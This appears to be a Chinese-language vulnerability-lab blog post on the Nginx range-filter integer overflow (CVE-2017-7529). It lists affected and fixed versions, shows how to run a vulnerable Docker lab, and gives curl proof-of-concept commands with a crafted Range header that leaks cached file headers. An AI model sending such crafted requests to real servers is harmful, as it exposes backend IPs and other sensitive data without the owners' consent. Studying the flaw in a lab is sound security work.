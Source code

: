 ```yaml
---
layout: post
title: "Nginx整数溢出漏洞 (CVE-2017-7529)"
date: 2017-07-14 11:03:29
image: '/assets/img/'
description: '当使用nginx标准模块时，攻击者可以通过发送包含恶意构造 range 域的 header 请求，来获取响应中的缓存文件头部信息。在某些配置中，缓存文件头可能包含后端服务器的IP地址或其它敏感信息，从而导致信息泄露。'
main-class: 'warning'
color: '#B31917'
tags:
- Nginx
- Integer-Overflows
- Information-Disclosure
categories:
- Nginx
twitter_text: '当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。'
introduction: '当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。'
---
```


### 漏洞信息

当使用nginx标准模块时，攻击者可以通过发送包含恶意构造 range 域的 header 请求，来获取响应中的缓存文件头部信息。在某些配置中，缓存文件头可能包含后端服务器的IP地址或其它敏感信息，从而导致信息泄露。

参考：[【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)

### 漏洞影响

该漏洞影响所有 0.5.6 - 1.13.2版本内默认配置模块的Nginx只需要开启缓存攻击者即可发送恶意请求进行远程攻击造成信息泄露。

当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。

通过我们的分析判定该漏洞利用难度低可以归属于low-hanging-fruit的漏洞在真实网络攻击中也有一定利用价值。

#### 影响版本

Nginx version 0.5.6 - 1.13.2

#### 修复版本

Nginx version 1.13.3, 1.12.1

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:n_nginx_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nginx_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 


### 使用与利用

#### POC

1.访问缓存文件拿到 Content-Length，以 /proxy/demo.png 为例：
{% highlight bash %}
$ curl -I http://127.0.0.1:8000/proxy/demo.png

HTTP/1.1 200 OK
Server: nginx/1.13.1
Date: Wed, 12 Jul 2017 15:57:57 GMT
Content-Type: image/png
Content-Length: 16585
Connection: keep-alive
Last-Modified: Wed, 12 Jul 2017 15:57:57 GMT
ETag: W/"40c9-5543e4fad0d40"
X-Proxy-Cache:: MISS
Accept-Ranges: bytes
{% endhighlight %}

看到 `Content-Length: 16585`, 找个比这个数大的值，例如 17208, 第二个 range 值为 0x8000000000000000-17208, 也就是 9223372036854758600

2.请求时设置 range 如下：
{% highlight bash %}
$ curl -i http://127.0.0.1:8000/proxy/demo.png -r -17208,-9223372036854758600
{% endhighlight %}

看到结果：

![](https://github.com/Medicean/VulApps/raw/master/n/nginx/1/poc.png)

#### PoC 脚本

{% highlight bash %}
$ python poc.py http://127.0.0.1:8000/proxy/demo.png

Vulnerable: http://127.0.0.1:8000/proxy/demo.png
{% endhighlight %}

### 参考链接

* [【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)
* [CVE-2017-7529 Nginx整数溢出漏洞分析](http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
